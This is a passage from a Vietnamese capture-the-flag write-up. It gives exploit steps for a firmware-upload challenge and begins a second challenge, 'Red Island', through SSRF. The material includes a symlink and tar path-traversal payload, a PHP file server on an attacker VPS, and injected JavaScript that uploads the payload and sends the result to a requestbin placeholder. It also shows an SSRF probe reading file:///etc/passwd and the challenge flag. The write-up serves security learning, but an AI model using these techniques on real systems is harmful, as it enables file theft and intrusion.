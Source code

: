 ### Exploit steps
- Symlink `/flag.txt`
```
touch flag.txt
ln -s /flag.txt flag.txt
```
- Nén file thành tar
```
tar cvzf payload.tar.gz flag.txt
```
- Sử dụng 7z để sửa filename flag.txt thành `../../../../../app/app/application/static/firmware_extract/flag.txt`
- Host 1 file `index.php` trên VPS và lưu file `payload.tar.gz` cùng thư mục với nhau. Chạy command `php -S 0.0.0.0:1234`
```
<?php
header("Access-Control-Allow-Origin: *");
echo file_get_contents("payload.tar.gz");
?>
```
- Script để upload file ở `issue`:
```
<script>
fetch('http://[YOUR_VPS]:1234/')
.then(res => res.blob())
.then(content => {
    let data = new FormData()
    data.append('file', content)
    fetch("/api/firmware/upload", {
        method: "POST",
        body: data
    })
    .then(r => r.text())
    .then(t => fetch("https://[YOUR_REQUESTBIN]?a=" + t))
})
</script>
```
- Cuối cùng truy cập vào `/static/firmware_extract/flag.txt` để lấy flag.

**Flag**: `HTB{des3r1aliz3_4ll_th3_th1ngs}`

## Red Island
Không được cung cấp source nên fuzz thì thấy có một số chức năng sau:
- `/api/login` và `/api/register` -> thử một số payload đơn giản về SQL Injection thì bài này vẫn không work.
- `/api/red/generate` -> nhận giá trị của người dùng nhập vào thông qua tham số `url`.

Vì thử payload ở login và register đều không thể thực hiện SQL Injection nên bây giờ chỉ focus vào `/api/red/generate`.
- Thử nhập url `http://google.com` thì có trả về reponse là nội dung của trang.
- Vậy ở đây có thể nghĩ tới lỗi SSRF => thử payload `file:///etc/passwd`

![Đọc file /etc/passwd](https://i.imgur.com/pngPZWl.png)
